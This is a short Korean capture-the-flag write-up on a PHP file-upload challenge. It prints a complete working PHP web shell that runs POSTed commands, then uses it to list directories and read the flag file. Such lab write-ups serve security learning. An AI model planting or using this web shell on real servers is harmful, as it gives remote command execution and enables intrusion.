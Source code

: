 ## Web - file upload

### 문제
![Web - file upload](/img/file-upload-0.png)  
파일 업로드 취약점을 이용해 플래그를 알아내야 한다.

### 풀이
![Upload Page](/img/file-upload-1.png)  
여기도 귀여운 너구리 한 마리가 반겨준다..  
그리고 URL을 보면 해당 사이트가 PHP를 사용하는 것을 알 수 있다.

PHP로 웹셸을 작성 후  
```php
<?php
	$cmd = $_POST['cmd'];
	if ( isset($cmd) ) { $x = exec("$cmd", $output); }
	echo	"<form action='$_SERVER[PHP_SELF]' method='post'>".
			"<input type='text' name='cmd'/>".
			"</form><hr/><pre>";
	foreach ($output as $o) {
		echo $o."<br/>";
	}
	echo	"</pre>";
?>
```
파일을 올리면

![Uplaod Path](/img/file-upload-3.png)  
친절하게도 파일이 업로드된 위치를 알려준다. ..?

이제 위 경로로 접속하면  
![Webshell](/img/file-upload-4.png)  
웹셸을 사용할 수 있다.

![Webshell - ls -lhA ../](/img/file-upload-5.png)  
`flag`라는 이름을 가진 파일을 찾았다.

이제 저 파일을 읽기만 하면 된다.  
![Webshell - cat ../flag](/img/file-upload-6.png)  
`flag` 파일의 위치를 브라우저로 접속해도 된다.

